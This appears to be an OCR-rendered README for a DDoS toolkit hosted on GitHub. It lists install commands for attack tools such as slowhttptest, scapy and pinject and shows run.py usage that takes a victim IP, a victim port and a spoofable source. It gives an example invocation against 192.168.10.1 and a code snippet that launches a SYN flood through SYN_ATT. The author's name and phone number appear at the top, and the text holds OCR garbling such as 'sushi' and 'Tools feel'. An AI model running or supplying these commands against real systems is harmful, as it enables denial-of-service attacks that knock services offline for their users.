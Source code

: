 Jayesh Patel
Toronto ON 
647-271-9971


prerequisites :


Step 1 : Install Ubuntu / Kali / BackTrack Linux :

apt-get install nikto

apt-get install sushi

apt-get install ssh

apt-get install tcpdump graphviz imagemagick python-gnuplot

sudo apt-get install slowhttptest

apt-get install subversion

apt-get install aclocal

apt-get install automaker

pip install scapy 

pip install iptools

pip install ipaddress

pip install ipaddr

pip install pinject

Git clone …… "https://github.com/umasolution/DDoS.git"

Run Command :
root@bt:~/dos# python run.py -h

usage: run.py [-h] c_num victim_ip victim_port source_ip source_port

Pass Arguments

positional arguments:

c_num        Enter Number of request

victim_ip    Enter Victim IP

victim_port  Enter Victim Port

source_ip    Enter Source IP

source_port  Enter Source Port 


python run.py 10 192.168.10.1 100 random 80

ls

run.py (main file)

scapy_dos.py (scapy file where we mentioned all attack)

slowhttptest (Tools for DoS)

tool_dos.py (Tools feel where we mentioned all tools based attack)





Find the following code for perform syn attack 

from scapy_dos import Dos_Attack

from tool_dos import Dos_Tools 

res = Dos_Attack(sip, dip)

we need run run SYN Attack, call function SYN_ATT from scapy_dos.py file with two argument

def SYN_ATT(self, sport, dport):

res.SYN_ATT(sport, dport)       



